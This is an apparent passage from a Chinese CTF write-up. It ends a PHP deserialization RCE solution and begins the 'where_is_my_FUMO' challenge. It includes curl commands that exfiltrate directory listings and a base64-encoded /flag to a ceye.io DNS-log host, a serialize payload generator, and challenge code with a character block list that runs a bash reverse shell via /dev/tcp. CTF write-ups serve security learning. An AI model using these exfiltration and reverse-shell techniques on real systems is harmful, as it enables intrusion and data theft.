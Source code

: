 ```php
        $this->afkl = new d();
    }
}

$a = new c();
echo base64_encode(serialize($a));
```

这里用rce卡很久，反弹shell弹不出来，选择用dns外带了：
[CEYE - Monitor service for security testing](http://ceye.io/) 或者 [DNSLog Platform](http://www.dnslog.cn/)

但是外带的时候又碰到一些问题，学习了这篇文章：[RCE篇之无回显rce - 学安全的小白 - 博客园 (cnblogs.com)](https://www.cnblogs.com/pursue-security/p/15406672.html)

像ls，因为返回的结果是多行的，这里就只能显示一行，可以像这样：

```sh
curl `ls / | sed -n "5p"`.xxx.ceye.io
```

![](https://i.loli.net/2021/10/29/gSBo1fmieasyqnC.png)

确认flag在根目录下，在cat的时候出了些问题，可能因为一些字符问题，导致flag显示不全，这里用base64编码后再带出来：

```sh
curl http://xxx.ceye.io/`cat /flag | base64`
```

![](https://i.loli.net/2021/10/29/ZFHvIbUjs4TLa26.png)

![](https://i.loli.net/2021/10/29/tZYJwQdkGNq4WjA.png)



## where_is_my_FUMO

[Linux反弹shell（一）文件描述符与重定向 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2548)

[Linux 反弹shell（二）反弹shell的本质 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2549)

```php
<?php
function chijou_kega_no_junnka($str) {
    $black_list = [">", ";", "|", "{", "}", "/", " "];
    return str_replace($black_list, "", $str);
}

if (isset($_GET['DATA'])) {
    $data = $_GET['DATA'];
    $addr = chijou_kega_no_junnka($data['ADDR']);
    $port = chijou_kega_no_junnka($data['PORT']);
    exec("bash -c \"bash -i < /dev/tcp/$addr/$port\"");
} else {
    highlight_file(__FILE__);
}
```
